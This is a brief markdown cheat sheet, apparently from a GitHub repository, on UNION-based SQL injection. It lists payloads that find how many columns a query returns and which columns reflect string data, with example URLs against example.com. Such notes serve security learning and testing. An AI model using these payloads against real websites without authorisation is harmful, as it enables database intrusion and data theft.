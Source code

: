 # UNION based SQL Injection

## Find number of SQL collumns
`' UNION SELECT NULL--`
`' UNION SELECT NULL,NULL--`

Example: `https://example.com/param='+UNION+SELECT+NULL,NULL--`

## Find data in collumns

`' UNION SELECT 'a',NULL,NULL,NULL--`
`' UNION SELECT NULL,'a',NULL,NULL--`
`' UNION SELECT NULL,NULL,'a',NULL--`
`' UNION SELECT NULL,NULL,NULL,'a'--`

Example: `https://example.com/param='+UNION+SELECT+'a',NULL,NULL,NULL--`
